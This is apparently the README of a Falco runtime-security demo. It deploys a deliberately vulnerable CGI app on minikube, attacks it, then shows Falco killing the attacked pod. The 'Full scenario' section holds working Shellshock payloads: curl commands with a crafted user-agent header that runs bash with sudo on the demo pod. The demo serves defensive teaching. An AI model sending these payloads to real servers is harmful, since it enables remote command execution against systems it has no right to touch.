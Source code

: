 # falco-demo

## Setup

Spawn a VM with `vagrant up`

In the vm, start a minikube cluster:

```sh
$ sudo minikube start --vm-driver none
```

Deploy the response engine:

```sh
$ kubectl apply -f /vagrant/response-engine/k8s/
```

Deploy falco:

```sh
$ cd /vagrant
$ ./deploy-falco.sh
```


## Full scenario

Create the cluster:

```sh
minikube start --driver virtualbox
```

In another tmux pane, launch a kubectl watch command to check on Pod statuses:

```sh
watch kubectl get pods
```

Deploy the vulnerable app:

```sh
kubectl apply -f ./vuln/vuln.yaml
```

Exploit the vulnerability:

```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo pwned | sudo tee /pwned'" http://$(minikube ip):8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /pwned'" http://$(minikube ip):8080/cgi-bin/stats
```

Remove the exploited pod:

```sh
kubectl delete pods vuln-xxxx
```

Deploy falco & wait for it to be ready:

```sh
./deploy-falco.sh
```


Try to exploit the vulnerability again:

```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo pwned | sudo tee /pwned'" http://$(minikube ip):8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /pwned'" http://$(minikube ip):8080/cgi-bin/stats
```

Watch the Pod being killed...

